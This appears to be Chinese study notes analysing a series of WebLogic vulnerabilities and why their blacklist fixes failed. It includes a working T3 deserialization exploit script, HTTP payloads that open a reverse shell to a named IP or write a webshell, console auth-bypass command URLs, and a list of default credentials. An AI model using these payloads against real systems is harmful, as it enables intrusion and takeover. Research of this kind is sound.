

## 环境搭建

参考https://github.com/QAX-A-Team/WeblogicEnvironment?tab=readme-ov-file

## CVE-2015-4852

T3协议的反序列化。T3协议由协议头包裹，且数据包中包含多个序列化的对象。通过Yso生成反序列化payload，将payload替换掉数据包中的一个序列化对象，然后修改数据包的前四个字节（代表数据包的长度）：


漏洞的触发点在`wlserver/server/lib/wlthint3client.jar/weblogic/InboundMsgAbbrev`的`readObject()`。

```python
from os import popen
import struct # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii

def generatePayload(gadget,cmd):
    YSO_PATH = "/Users/feng/ctftools/ysoserial/ysoserial-all.jar"
    popen = subprocess.Popen(['java','-jar',YSO_PATH,gadget,cmd],stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip,port,payload):
    sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip,port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: "+"".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header  +desflag+  payload
    payload = struct.pack(">I",len(payload)) + payload[4:]
    sock.send(payload)
if __name__ == "__main__":
    ip = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget,cmd)
    T3Exploit(ip,port,payload)

```


漏洞的修复就是加黑名单：


在`InboundMsgAbbrev`和`MsgAbbrevInputStream`的`resolveClass`方法中进行了过滤。


## CVE-2016-0638

就是对CVE-2015-4852黑名单的绕过，找到了`weblogic.jms.common.StreamMessageImpl`这个类，这个类实现的不是`Serializable`接口而是`Externalizable`接口，实现了这个接口的反序列化调用的是`readExternal`方法。


相当于二次反序列化来绕过黑名单。

修复则是把`var5`改成了`FilteringObjectInputStream`，在里面进行了过滤。


## CVE-2016-3510

与CVE-2016-0638类似，绕过黑名单是用`MarshalledObject`类。


该类有个`readResolve()`方法，在里面可以对`this.objBytes`进行反序列化。


`readResolve()`方法会在`readObject()`的底层被调用，即`invokeReadResolve()`那里。


也是一个利用二次反序列化实现的绕过。

修复：


## CVE-2017-3248

之前用过但是没看过JRMP的反序列化，两年没看过Java了再去看JRMP反序列化的代码也有点看不懂了，直接理解流程了不关注JRMP的细节了：

> exploit.JRMPListener：使用时搭配任意的gadget（如CommonCollections1）生成第二次反序列化的payload，并会在攻击机监听一个指定的端口
>
> payloads.JRMPClient：携带指定的攻击机ip和端口生成受害机第一次反序列化（需要代码中存在一个反序列化点）时的payload，受害机反序列化该payload时会向指定的攻击机ip+端口发起RMI通信，在通信阶段攻击机会将第二次反序列化的payload（如CommonCollections1）发送给受害机，此时发生第二次反序列化，执行真正的恶意命令。

所以起一个`exploit.JRMPListener`恶意服务，然后在weblogic那边反序列化`payloads.JRMPClient`生成的payload，会导致向我们的`exploit.JRMPListener`发起RMI通信，进行二次反序列化。

所以还是一个二次反序列化来绕过黑名单，看到这里其实就可以理解weblogic为什么一直出洞了，因为黑名单的机制是非常容易被绕过的，开发人员肯定是不如安全研究员懂安全的，安全研究员肯定能挖到可以绕过黑名单并且实现二次反序列化的链子，如果开发人员的黑名单能厉害到找到所有链子全给ban掉，那开发不如直接搞安全了捏。


修复方法：

在`InboundMsgAbbrev.ServerChannelInputStream`加黑名单，对`java.rmi.registry.Registry`进行过滤。

```java
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
   String[] arr$ = interfaces;
   int len$ = interfaces.length;
   for(int i$ = 0; i$ < len$; ++i$) {
      String intf = arr$[i$];
      if(intf.equals("java.rmi.registry.Registry")) {
         throw new InvalidObjectException("Unauthorized proxy deserialization");
      }
   }
   return super.resolveProxyClass(interfaces);
}
```


## CVE-2017-10271

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

反弹shell，命令有些字符要编码：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/121.5.169.223/39123 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

写webshell：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```


访问`http://your-ip:7001/bea_wls_internal/test.jsp`

具体流程参考https://xz.aliyun.com/t/10172?time__1311=Cqjx2DnDuDRD0D0x0vT8KQnDODgDhCCYjeD#toc-4


## CVE-2018-2628

是对CVE-2017-3248的绕过，在`InboundMsgAbbrev.ServerChannelInputStream`加黑名单，对`java.rmi.registry.Registry`进行过滤，看过JRMP反序列化分析的文章的话就会经常看到这个点，就是最后生成的代理其实是可以去掉的，直接反序列化`UnicastRef`即可。

```java
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    //RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    //Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
    //    Registry.class
    //}, obj);
    return ref;
}
```


第二种绕过就是寻找`Registry`的替代，找到了`java.rmi.activation.Activator`远程接口：

```java
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
     RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] {
            Activator.class
        }, obj);
    return proxy;
}
```


修复方式是增加了`sun.rmi.server.UnicastRef`黑名单，但是无法防止第二种绕过。


## CVE-2018-2893

对`CVE-2018-2628`修复的绕过，除了利用`Activator`，还可以利用CVE-2016-0638与CVE-2017-3248进行结合。

前面提到`CVE-2017-3248`的修复是在`InboundMsgAbbrev.ServerChannelInputStream`的`resolveProxyClass`里加黑名单，ban掉了`java.rmi.registry.Registry`，但是`CVE-2016-0638`的修复中`weblogic.jms.common.StreamMessageImpl`二次反序列化的黑名单里面并没有`java.rmi.registry.Registry`，所以属于是套中套，三次反序列化绕过：

```java
import weblogic.jms.common.StreamMessageImpl;
public Object getObject (final String command ) throws Exception {
    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID objID = new ObjID(new Random().nextInt());
    TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
    UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
    RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
    Object object = Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);

    return streamMessageImpl(Serializer.serialize(object));

}
```


修复是：


## CVE-2018-3245

前面提到的增加了`sun.rmi.server.UnicastRef`黑名单，但是无法防止第二种绕过，是因为在`RemoteObjectInvocationHandler`在反序列化的时候，调用父类`RemoteObject`的反序列化方法，而`RemoteObject`在`readObject`里面反序列化`ref`，相当于又一次二次反序列化，所以`UnicastRef`的黑名单无法影响到。


CVE-2018-2893的黑名单虽然ban了很多的东西，比如`RemoteObjectInvocationHandler`，但因为最后调用的是`RemoteObject`的`readObject`，所以寻找继承`java.rmi.server.RemoteObject`的类并且不在黑名单中的即可。

网上有的：

```
javax.management.remote.rmi.RMIConnectionImpl_Stub
com.sun.jndi.rmi.registry.ReferenceWrapper_Stub
javax.management.remote.rmi.RMIServerImpl_Stub
sun.rmi.registry.RegistryImpl_Stub
sun.rmi.transport.DGCImpl_Stub
sun.management.jmxremote.SingleEntryRegistry

```


```java
import javax.management.remote.rmi.RMIConnectionImpl_Stub;
public Object getObject (final String command ) throws Exception {
    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID objID = new ObjID(new Random().nextInt());
    TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
    UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
    RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(ref);
    return stub;
}
```


修复方式是将`java.rmi.server.RemoteObject`加入到黑名单。

## CVE-2018-3191

T3触发JNDI的反序列化。

`JtaTransactionManager`类在反序列化的时候调用`initUserTransactionAndTransactionManager()`方法：

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        this.jndiTemplate = new JndiTemplate();
        this.initUserTransactionAndTransactionManager();
        this.initTransactionSynchronizationRegistry();
    }
```

`initUserTransactionAndTransactionManager()`里触发`lookupUserTransaction()`方法

```java
    protected void initUserTransactionAndTransactionManager() throws TransactionSystemException {
        if (this.userTransaction == null) {
            if (StringUtils.hasLength(this.userTransactionName)) {
                this.userTransaction = this.lookupUserTransaction(this.userTransactionName);
                this.userTransactionObtainedFromJndi = true;
            } else {
                this.userTransaction = this.retrieveUserTransaction();
            }
        }
```

触发`this.getJndiTemplate().lookup()`

```java
    protected UserTransaction lookupUserTransaction(String userTransactionName) throws TransactionSystemException {
        try {
            if (this.logger.isDebugEnabled()) {
                this.logger.debug("Retrieving JTA UserTransaction from JNDI location [" + userTransactionName + "]");
            }

            return (UserTransaction)this.getJndiTemplate().lookup(userTransactionName, class$javax$transaction$UserTransaction == null ? (class$javax$transaction$UserTransaction = class$("javax.transaction.UserTransaction")) : class$javax$transaction$UserTransaction);
        } catch (NamingException var3) {
            NamingException ex = var3;
            throw new TransactionSystemException("JTA UserTransaction is not available at JNDI location [" + userTransactionName + "]", ex);
        }
    }
```

`JndiTemplate`的`lookup`方法中，触发`lookup`函数查询，导致JNDi注入

```java
    public Object lookup(String name, Class requiredType) throws NamingException {
        Object jndiObject = this.lookup(name);
        if (requiredType != null && !requiredType.isInstance(jndiObject)) {
            throw new TypeMismatchNamingException(name, requiredType, jndiObject != null ? jndiObject.getClass() : null);
        } else {
            return jndiObject;
        }
    }
```


修复是将JtaTransactionManager的父类AbstractPlatformTransactionManager加入到了黑名单。


剩下的T3协议的反序列化本质上都差不多了，实际上还是t3协议的问题，这么一个能直接访问的反序列化入口真的是很抽象。

## CVE-2020-14882+CVE-2020-14883

未授权访问后台：

```
http://localhost:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=
```


后台任意用户执行命令有两种姿势。

Weblogic 12.2.1以上：

```http
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

通杀（但是有限制）：

```http
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```


```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```


## CVE-2023-21839

是Weblogic的一个JNDi注入漏洞。当`lookup`查询服务端的对象的时候，会调用远程对象getReferent方法。


`OpaqueReference`是一个接口，`ForeignOpaqueReference`类实现了`OpaqueReference`接口，并且该类的`getReferent`方法可以JNDI注入：




## 弱口令

后台登陆地址`/console/login/LoginForm.jsp`

```
system/password
weblogic/weblogic
admin/security
joe/password
mary/password
system/security
wlcsystem/wlcsystem
wlpisystem/wlpisystem
weblogic/Oracle@123

```


## References

[WebLogic安全研究报告](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ%3D%3D&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704)

[weblogic漏洞分析之CVE-2016-0638 - 先知社区](https://xz.aliyun.com/t/10173?time__1311=Cqjx2DnDuDRD0DRx0vT8KQnDx0hABiYDf2bD)

[Java安全之Weblogic漏洞分析与利用(上) - 先知社区](https://xz.aliyun.com/t/12947?time__1311=GqGxuD9QArDsNiQGkDRDAOzxgGIqG8QD1+eD#toc-5)

[从Weblogic原理上探究CVE-2015-4852、CVE-2016-0638、CVE-2016-3510究竟怎么一回事 - 先知社区](https://xz.aliyun.com/t/8443?time__1311=n4+xnD0DcDuDyDR2xjxYqGNnpBfKDtQKesYiTTk4D#toc-2)

[Java安全之ysoserial JRMP分析 - 先知社区](https://xz.aliyun.com/t/12780?time__1311=GqGxu7G%3DqCwxlrzG77DODnDRO8vG87//0AeD)

[Weblogic JRMP反序列化及绕过分析 - Y4er的博客](https://y4er.com/posts/weblogic-jrmp/)

[Weblogic学习（一）： 初识T3反序列化](https://www.yuque.com/tianxiadamutou/zcfd4v/aevpg0)